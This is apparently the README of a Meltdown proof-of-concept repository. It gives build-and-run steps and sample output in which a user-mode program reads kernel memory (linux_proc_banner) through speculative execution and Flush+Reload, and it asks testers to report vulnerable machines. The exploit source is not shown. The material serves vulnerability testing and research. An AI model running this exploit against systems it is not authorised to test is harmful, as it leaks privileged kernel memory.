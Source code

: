 # MELTDOWN EXPLOIT POC

Speculative optimizations execute code in a non-secure manner leaving data
traces in microarchitecture such as cache.

Lipp et. al 2018 published their code 2018-01-09 at
https://github.com/IAIK/meltdown. Look at their paper for details:
https://meltdownattack.com/meltdown.pdf.

Can only dump `linux_proc_banner` at the moment, since requires accessed memory
to be in cache and `linux_proc_banner` is cached on every read from
`/proc/version`. Might work with `prefetch`. Works with `sched_yield`.

Build with `make`, run with `./run.sh`.

Can't defeat KASLR yet, so you may need to enter your password to find
`linux_proc_banner` in the `/proc/kallsyms` (or do it manually).

Flush+Reload and target array approach taken from spectre paper https://spectreattack.com/spectre.pdf
implemented following clues from https://cyber.wtf/2017/07/28/negative-result-reading-kernel-memory-from-user-mode/.

Pandora's box is open.

Result:
```
$ make
cc -O2 -msse2   -c -o meltdown.o meltdown.c
cc   meltdown.o   -o meltdown
$ ./run.sh 
looking for linux_proc_banner in /proc/kallsyms
cached = 30, uncached = 349, threshold 102
read ffffffff8f800060 = 25 % (score=314/1000)
read ffffffff8f800061 = 73 s (score=301/1000)
read ffffffff8f800062 = 20   (score=242/1000)
read ffffffff8f800063 = 76 v (score=338/1000)
read ffffffff8f800064 = 65 e (score=280/1000)
read ffffffff8f800065 = 72 r (score=326/1000)
read ffffffff8f800066 = 73 s (score=388/1000)
read ffffffff8f800067 = 69 i (score=304/1000)
read ffffffff8f800068 = 6f o (score=240/1000)
read ffffffff8f800069 = 6e n (score=301/1000)
read ffffffff8f80006a = 20   (score=295/1000)
read ffffffff8f80006b = 25 % (score=329/1000)
read ffffffff8f80006c = 73 s (score=268/1000)
read ffffffff8f80006d = 20   (score=197/1000)
read ffffffff8f80006e = 28 ( (score=239/1000)
read ffffffff8f80006f = 64 d (score=154/1000)
VULNERABLE
PLEASE POST THIS TO https://github.com/EsenkayShady/meltdown-poc/issues/1
VULNERABLE ON
4.14.0-kali1-amd64 #1 SMP Debian 4.14.2-1kali1 (2017-12-04) unknown
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 78
model name	: Intel(R) Core(TM) i5-6300U CPU @ 2.40GHz
stepping	: 3
microcode	: 0xba
cpu MHz		: 2500.000
cache size	: 3072 KB
physical id	: 0

```

Post Vulnerable and Invulnerable Machines in Issues in the folloving links

Not vulnerable- https://github.com/EsenkayShady/meltdown-poc/issues/1
Vulnerable- https://github.com/EsenkayShady/meltdown-poc/issues/2
# meltdown-poc
